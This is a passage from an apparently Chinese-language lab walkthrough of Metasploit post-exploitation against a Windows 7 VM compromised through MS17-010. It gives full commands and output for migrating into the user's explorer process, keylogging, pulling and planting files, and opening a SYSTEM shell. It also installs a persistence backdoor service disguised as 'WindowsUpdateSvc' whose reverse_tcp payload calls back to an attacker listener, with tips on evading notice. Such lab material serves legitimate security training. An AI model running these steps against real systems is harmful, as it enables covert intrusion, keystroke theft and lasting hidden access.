 312   484   svchost.ex  x64   0        NT AUTHORITY\LOC
             e                          AL SERVICE
 344   328   csrss.exe   x64   0        NT AUTHORITY\SYS  C:\Windows\system
                                        TEM               32\csrss.exe
 360   484   SearchInde  x64   0        NT AUTHORITY\SYS
             xer.exe                    TEM
 392   328   wininit.ex  x64   0        NT AUTHORITY\SYS  C:\Windows\system
             e                          TEM               32\wininit.exe
 404   384   csrss.exe   x64   1        NT AUTHORITY\SYS  C:\Windows\system
                                        TEM               32\csrss.exe
 448   384   winlogon.e  x64   1        NT AUTHORITY\SYS  C:\Windows\system
             xe                         TEM               32\winlogon.exe
 484   392   services.e  x64   0        NT AUTHORITY\SYS  C:\Windows\system
             xe                         TEM               32\services.exe
 500   392   lsass.exe   x64   0        NT AUTHORITY\SYS  C:\Windows\system
                                        TEM               32\lsass.exe
 508   392   lsm.exe     x64   0        NT AUTHORITY\SYS  C:\Windows\system
                                        TEM               32\lsm.exe
 620   484   svchost.ex  x64   0        NT AUTHORITY\SYS
             e                          TEM
 696   484   svchost.ex  x64   0        NT AUTHORITY\NET
             e                          WORK SERVICE
 760   484   svchost.ex  x64   0        NT AUTHORITY\LOC
             e                          AL SERVICE
 836   484   svchost.ex  x64   0        NT AUTHORITY\SYS
             e                          TEM
 868   484   svchost.ex  x64   0        NT AUTHORITY\SYS
             e                          TEM
 988   484   svchost.ex  x64   0        NT AUTHORITY\NET
             e                          WORK SERVICE
 1052  484   spoolsv.ex  x64   0        NT AUTHORITY\SYS  C:\Windows\System
             e                          TEM               32\spoolsv.exe
 1072  484   svchost.ex  x64   0        NT AUTHORITY\LOC
             e                          AL SERVICE
 1168  484   svchost.ex  x64   0        NT AUTHORITY\LOC
             e                          AL SERVICE
 1192  484   wmpnetwk.e  x64   0        NT AUTHORITY\NET
             xe                         WORK SERVICE
 1368  2012  explorer.e  x64   1        Ankh-PC\Ankh      C:\Windows\Explor
             xe                                           er.EXE
 1420  484   sppsvc.exe  x64   0        NT AUTHORITY\NET
                                        WORK SERVICE
 1656  484   svchost.ex  x64   0        NT AUTHORITY\LOC
             e                          AL SERVICE
 1692  484   svchost.ex  x64   0        NT AUTHORITY\NET
             e                          WORK SERVICE
 1760  1368  taskmgr.ex  x64   1        Ankh-PC\Ankh      C:\Windows\system
             e                                            32\taskmgr.exe
 1916  484   svchost.ex  x64   0        NT AUTHORITY\SYS
             e                          TEM
 1960  484   taskhost.e  x64   1        Ankh-PC\Ankh      C:\Windows\system
             xe                                           32\taskhost.exe
 2028  836   dwm.exe     x64   1        Ankh-PC\Ankh      C:\Windows\system
                                                          32\Dwm.exe
 2308  1136  cmd.exe     x64   0        NT AUTHORITY\SYS  C:\Windows\system
                                        TEM               32\cmd.exe
 2316  344   conhost.ex  x64   0        NT AUTHORITY\SYS  C:\Windows\system
             e                          TEM               32\conhost.exe
 2468  1136  cmd.exe     x64   0        NT AUTHORITY\SYS  C:\Windows\system
                                        TEM               32\cmd.exe
 2476  344   conhost.ex  x64   0        NT AUTHORITY\SYS  C:\Windows\system
             e                          TEM               32\conhost.exe
 2716  1136  cmd.exe     x64   0        NT AUTHORITY\SYS  C:\Windows\system
                                        TEM               32\cmd.exe
 2724  344   conhost.ex  x64   0        NT AUTHORITY\SYS  C:\Windows\system
             e                          TEM               32\conhost.exe
 2920  1136  cmd.exe     x64   0        NT AUTHORITY\SYS  C:\Windows\system
                                        TEM               32\cmd.exe
 2928  344   conhost.ex  x64   0        NT AUTHORITY\SYS  C:\Windows\system
             e                          TEM               32\conhost.exe
 3044  1368  notepad.ex  x64   1        Ankh-PC\Ankh      C:\Windows\system
             e                                            32\NOTEPAD.EXE

meterpreter > migrate 1368 # 迁移到用户进程从而提取到用户权限
[*] Migrating from 1052 to 1368...
[*] Migration completed successfully.
meterpreter > getuid # 当前权限为Ankh
Server username: Ankh-PC\Ankh
meterpreter > keyscan_start # 开始键盘嗅探
Starting the keystroke sniffer ...
meterpreter > keyscan_dump # 打印“Hello？”
Dumping captured keystrokes...
<Shift>Hello<Shift>?

meterpreter > keyscan_stop # 结束键盘嗅探
Stopping the keystroke sniffer...
meterpreter > 
```

PS：切换到用户身份之后一般很难提升到SYSTEM权限（Windows安全机制），如果尝试`getsystem`无果，则`background` -> `run`重新执行exploit

##### 3. 文件窃取与上传

下载上一步中靶机桌面保存的`hello.txt`文件并上传一个`hi.txt`文件（可以是可执行的恶意程序）

```bash
meterpreter > cat C:\\Users\\Ankh\\Desktop\\hello.txt # 文件读取
Hello?meterpreter > download C:\\Users\\Ankh\\Desktop\\hello.txt /home/kali/Desktop # 把文件下载到Kali桌面
[*] Downloading: C:\Users\Ankh\Desktop\hello.txt -> /home/kali/Desktop/hello.txt
[*] Downloaded 6.00 B of 6.00 B (100.0%): C:\Users\Ankh\Desktop\hello.txt -> /home/kali/Desktop/hello.txt
[*] Completed  : C:\Users\Ankh\Desktop\hello.txt -> /home/kali/Desktop/hello.txt
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ echo "Hi\!" > hi.txt # Kali终端创建文件
```

```bash
meterpreter > upload /home/kali/Desktop/hi.txt > C:\\Users\\Ankh\\Desktop\\ # 上传文件
[*] Uploading  : /home/kali/Desktop/hi.txt -> C:\Users\Ankh\Desktop\hi.txt
[*] Completed  : /home/kali/Desktop/hi.txt -> C:\Users\Ankh\Desktop\hi.txt
```

#### 三、Metasploit持久化后门攻击

##### 利用Windows服务机制实现权限维持

1. Kali通过MS17-010漏洞获得靶机SYSTEM权限会话后，使用`persistence_service`模块创建持久化后门

```bash
# 终端1：攻击配置：
msf6 exploit(windows/smb/ms17_010_eternalblue) > use exploit/windows/local/persistence_service # 持久化服务模块
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/persistence_service) > set payload windows/meterpreter/reverse_tcp # 将攻击载荷设置为32位（默认），64位会出现不兼容情况
msf6 exploit(windows/local/persistence_service) > set SESSION 1 # 设置为当前获取到SYSTEM权限的会话ID。可以通过sessions指令查看
SESSION => 1
msf6 exploit(windows/local/persistence_service) > set LHOST 10.0.0.223 # 设置为Kali IP
LHOST => 10.0.0.223
msf6 exploit(windows/local/persistence_service) > set LPORT 4446 # 指定一个监听端口
LPORT => 4446
msf6 exploit(windows/local/persistence_service) > set SERVICE_NAME WindowsUpdateSvc
SERVICE_NAME => WindowsUpdateSvc # 将服务名伪装
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/persistence_service) > run #执行
[*] Started reverse TCP handler on 10.0.0.223:4446 
[*] Running module against ANKH-PC
[+] Meterpreter service exe written to C:\Windows\TEMP\keQgBw.exe
[*] Creating service WindowsUpdateSvc
[*] Cleanup Meterpreter RC File: /root/.msf4/logs/persistence/ANKH-PC_20251231.0748/ANKH-PC_20251231.0748.rc
[*] Sending stage (177734 bytes) to 10.0.0.17
[*] Meterpreter session 2 opened (10.0.0.223:4446 -> 10.0.0.17:49159) at 2025-12-31 09:07:49 +0000 
```

PS：由于该模块创建了一个持久化服务并且立刻启动了该服务，因此该服务会主动向攻击机发起连接。因此启动该模块后立刻创建了一个新的会话（session 2）。两个会话的权限相同

2. 创建监听器

```bash
# 终端2：监听配置
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp # 与攻击配置一致
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.0.223 # 绑定攻击机IP
LHOST => 10.0.0.223
msf6 exploit(multi/handler) > set LPORT 4446 # 绑定监听端口
LPORT => 4446
msf6 exploit(multi/handler) > set ExitOnSession false  # 即使断开也保持监听
ExitOnSession => false
msf6 exploit(multi/handler) > run -j # -j为后台运行
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.0.0.223:4446 
msf6 exploit(multi/handler) > 
```

3. 重启靶机

```bash
# 终端1：（重启靶机，无需登录）原会话断开
[*] 10.0.0.17 - Meterpreter session 1 closed.  Reason: Died

[*] 10.0.0.17 - Meterpreter session 2 closed.  Reason: Died

```

4. 靶机自动连接监听器

```bash
# 终端2：监听到新的会话连接（SYSTEM权限）
[*] Sending stage (177734 bytes) to 10.0.0.17
[*] Meterpreter session 1 opened (10.0.0.223:4446 -> 10.0.0.17:49205) at 2025-12-31 09:09:46 +0000

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                 Information           Connection
  --  ----  ----                 -----------           ----------
  1         meterpreter x86/win  NT AUTHORITY\SYSTEM   10.0.0.223:4446 -> 1
            dows                 @ ANKH-PC             0.0.0.17:49205 (10.0
                                                       .0.17)

msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

##### 相关原理

- **持久化机制**：
  - **生成meterpreter后门程序** → C:\Windows\TEMP\keQgBw.exe
  - **创建Windows服务** → "WindowsUpdateSvc"
  - **配置服务自动启动（开机自启）**
  - **服务指向后门程序路径**
- **服务伪装技巧**：
  - **服务名伪装**：使用`WindowsUpdateSvc`这样的合法名称，避免被轻易发现
  - **文件路径**：存放在`C:\Windows\TEMP\`，利用系统目录降低怀疑
  - **权限继承**：服务以SYSTEM权限运行，维持高权限访问
- **网络通信机制**
  - **反向连接**：靶机主动连接攻击机（10.0.0.223:4446）
  - **优势**：可绕过出站防火墙限制（大多数防火墙允许出站连接）
  - **稳定性**：即使连接断开也会尝试重连

#### 四、Shell

在`meterpreter`下执行shell可以SYSTEM身份进入靶机终端。由于编码问题（Windows终端采用GBK编码，而Kali终端采用UTF-8编码）shell后可能出现乱码，可以通过指令修改靶机编码方式（`chcp 65001`，Windows命令提示符(cmd)中设置代码页(Code Page)的命令）以解决该问题

```bash
meterpreter > shell
Process 1028 created.
Channel 2 created.
Microsoft Windows [�汾 6.1.7600]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Windows\system32>chcp 65001
chcp 65001
Active code page: 65001 # 936对应GBK，65001对应UTF-8

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd C:\Users\Ankh\Desktop
cd C:\Users\Ankh\Desktop                                                                                                                                                         
C:\Users\Ankh\Desktop>tree /f                                                            
tree /f                                                                                   Folder PATH listing
Volume serial number is 000001BD 0014:5107                                                               
C:.           
    Hello.txt
    hi.txt
    
No subfolders exist 


C:\Users\Ankh\Desktop>type Hello.txt
type Hello.txt
Hello?
C:\Users\Ankh\Desktop>exit
exit
meterpreter > 
```

